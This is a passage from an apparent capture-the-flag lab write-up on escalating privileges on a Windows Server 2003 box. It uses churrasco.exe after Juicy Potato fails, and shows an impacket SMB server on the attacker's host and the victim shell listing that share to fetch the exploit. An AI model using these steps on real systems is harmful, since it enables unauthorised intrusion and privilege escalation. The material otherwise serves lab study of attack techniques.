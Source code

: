 
In this case you use the Juicy-potato script but in this machine don't work because we have a problem with the CLSID of the machine 

```bash
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
```

The Github of juicy-potato only works with this versions

```bash
Windows CLSID
Windows 7 Enterprise
Windows 8.1 Enterprise
Windows 10 Enterprise
Windows 10 Professional
Windows Server 2008 R2 Enterprise
Windows Server 2012 Datacenter
Windows Server 2016 Standard
```

When you have this problem only use churrasco.exe you have information here

- [https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

First Download churrasco from the web 

```bash
❯ ls
 iis6-exploit-2017-CVE-2017-7269   churrasco.exe
```

Now trasnfer to the machine 

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
dir \\10.10.14.21\smbFolder\
dir \\10.10.14.21\smbFolder\
 Volume in drive \\10.10.14.21\smbFolder has no label.
 Volume Serial Number is ABCD-EFAA

 Directory of \\10.10.14.21\smbFolder

01/13/2023  12:25 AM    <DIR>          .
01/12/2023  09:14 PM    <DIR>          ..
01/12/2023  10:24 PM            31,232 churrasco.exe
01/13/2023  12:26 AM    <DIR>          iis6-exploit-2017-CVE-2017-7269
               1 File(s)         31,418 bytes
               3 Dir(s)  15,207,469,056 bytes free

C:\DOCUME~1>
```
